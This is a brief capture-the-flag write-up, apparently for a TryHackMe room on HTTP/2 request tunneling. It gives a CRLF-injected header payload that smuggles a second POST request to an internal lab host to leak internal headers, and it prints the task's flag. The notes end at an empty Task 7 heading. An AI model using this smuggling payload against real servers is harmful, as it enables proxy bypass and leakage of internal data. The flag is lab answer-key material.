

# HTTP/2 Request Tunneling: Leaking Internal Headers

# Task 5

## Payload

Note!! The CRLF needs to be in bytes not text

```
bar
Host: 10.65.152.199:8100

POST /hello HTTP/1.1
Host: 10.65.152.199:8100
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

q=LEAK-AAAA
```



## Flag

THM{not_secret_anymore}

# Task 7

## Payload
